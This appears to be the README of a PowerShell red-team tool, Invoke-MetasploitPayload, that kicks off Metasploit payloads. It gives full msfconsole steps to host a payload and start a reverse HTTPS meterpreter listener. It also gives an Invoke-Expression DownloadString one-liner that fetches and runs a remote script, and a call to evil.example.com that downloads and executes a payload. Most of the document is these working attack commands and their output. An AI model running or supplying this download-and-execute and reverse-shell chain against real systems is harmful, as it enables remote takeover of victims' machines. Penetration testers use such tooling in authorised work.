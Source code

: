 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```

By default, the module will generate a random string to be used as the URL for the script webserver. You can specify your own with the URIPATH variable.

```
set URIPATH posh-payload
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```

Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://0.0.0.0:8080/posh-payload
[*] Local IP: http://10.211.55.4:8080/posh-payload
[*] Server started.
```

#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. If you specified a URIPATH, this will be something like `http://[IP_OF_METASPLOIT_INSTANCE]/[URIPATH]` else it will have random characters for the URL (`http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM_CHARACTERS]`).

This URL is what you'll pass to `Invoke-MetasploitPayload`. 

_**You can ignore the line about "Run the following command on the target machine"**_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-MetasploitPayload.ps1

Usage is simple, first execute the PS1 file.

```
PS> Invoke-Expression (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/jaredhaight/Invoke-MetasploitPayload/master/Inv
oke-MetasploitPayload.ps1")
```

Then just pass the URL from the web_delivery module to Invoke-MetasploitPayload. It will handle spinning up a new process and then downloading and executing the script.
```
PS> Invoke-MetasploitPayload "http://evil.example.com/SDFJLWKS"
```

#### Acknowledgements

Invoke-MetasploitPayload is really just a repackaging of the PowerShell commands provided by the [web_delivery module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/script/web_delivery.rb) to download and execute the script. My hats off to those authors for their hard work.
